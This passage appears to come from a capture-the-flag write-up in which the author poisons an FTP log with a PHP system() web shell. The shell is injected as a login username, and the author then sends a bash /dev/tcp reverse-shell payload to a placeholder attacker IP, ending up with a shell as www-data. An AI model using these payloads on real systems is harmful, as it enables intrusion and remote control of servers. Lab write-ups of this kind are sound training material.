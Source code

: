 My first instinct here is to try some log poisioning. Here are the steps that I used to successfully realize the attack:

**1.Capture the log request using Burp Suite**
![](/images/brute/burprepeater.png)


**2. Inject PHP system request code**
We can do this easily via log-in attempts, simply replacing our username in the request with a PHP system request (`<?php echo system($_REQUEST['loljection']); ?>`).

```
$ ftp <target-ip>
Connected to <target-ip>.
220 (vsFTPd 3.0.3)
Name (<target-ip>:virtualtack): beep boop <?php echo system($_REQUEST['loljection']); ?> beep boop
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.
```

This will create a new entry in the log, allowing us to make an HTTP request via Burp with a system command in the format of `loljection=<command>`. The output of our command arguments can then be viewed:

![](/images/brute/rcewin.png)

## Foothold
Now that we have a PoC of the log poisoning vector, we can set up our netcat listener - `nc -lvnp <port>` - and execute our remote shell command (`bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1' `) via HTTP request.

```
✂️ ................................ ✂️

log=Log&loljection=bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1' 
```
❗**Note:** Before sending this request via Burp, we need to `URL Encode` it by highlighting the bash command and pressing  `CTRL+U`.

...and we get a reverse shell for our efforts.

```
$ sudo nc -l 9002
bash: cannot set terminal process group (784): Inappropriate ioctl for device
bash: no job control in this shell
www-data@brute:/var/www/html$ whoami
whoami
www-data
www-data@brute:/var/www/html$
```
